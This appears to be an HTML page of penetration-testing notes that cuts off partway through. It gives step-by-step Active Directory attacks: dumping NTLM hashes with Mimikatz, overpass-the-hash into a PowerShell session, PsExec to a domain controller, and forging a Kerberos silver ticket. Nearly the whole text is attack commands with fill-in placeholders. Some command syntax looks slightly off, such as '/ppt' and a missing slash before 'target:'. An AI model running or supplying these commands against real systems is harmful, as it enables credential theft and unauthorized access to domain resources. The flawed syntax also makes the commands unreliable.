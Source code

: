     <h2>Overpass the Hash</h2>

    <li>Turn NTLM hash into Kerberos ticket to avoid the use of NTLM authentication</li>
    <ul>
        <li>Retrieve NTLM hash for user</li>
        <ul>
            <li>Mimikatz</li>
            <ul>
                <li>Privilege::debug</li>
                <li>Sekurlsa::logonpasswords</li>
            </ul>
        </ul>
        <li>Authenticate with NTLM hash – Powershell session under context of other user</li>
        <ul>
            <li>Mimikatz</li>
            <ul>
                <li>Sekurlsa::pth /user:&lt;username&gt; /domain:&lt;domain &ndash; ex. Corp.com&gt; /ntlm:&lt;NTLM hash&gt; /run:powershell.exe</li>
            </ul>
        </ul>
        <li>Generate TGT by authenticating to a network share on DC – can use any command that requires domain permissions</li>
        <ul>
            <li>Net use \\&lt;Domain Controller &ndash; ex. dc01&gt;</li>
        </ul>
        <li>Check for cached Kerberos ticket</li>
        <ul>
            <li>Klist</li>
        </ul>
        <li>Run PsExec inside powershell session that is running under context of other user</li>
        <ul>
            <li>.\PsExec.exe \\&lt;domain controller &ndash; ex. dc01&gt; cmd.exe</li>
        </ul>
    </ul>

    <h2>Silver Ticket</h2>
    <li>Forge TGS using a service account password or NTLM hash in order to access any resources that the service account has permissions to</li>
    <li>If the SPN is used on multiple servers the ticket can be leveraged against them all.</li>
    <li>Creation Instructions</li>
    <ul>
        <li>Get domain SID</li>
        <ul>
            <li>Whoami /user</li>
            <ul>
                <li>SID is everything except the last section of digits</li>
            </ul>
        </ul>
        <li>mimikatz</li>
        <ul>
            <li>Get rid of pre-existing kerberos tickets</li>
            <ul>
                <li>Kerberos::purge</li>
            </ul>
            <li>Verify Kerberos tickets are purged</li>
            <ul>
                <li>Kerberos::list</li>
            </ul>
            <li>Forge silver ticket</li>
            <ul>
                <li>Kerberos::golden /user:&lt;username&gt; /domain:&lt;domain ex. corp.com&gt; /sid:&lt;domain SID &ndash; whoami /user SID except last section of #&#039;s&gt; target:&lt;fully qualified host name of service &ndash; ex. CorpWebServer.corp.com&gt; /service:&lt;service type &ndash; ex. HTTP&gt; /rc4:&lt;service account hash&gt; /ppt (inject into memory)</li>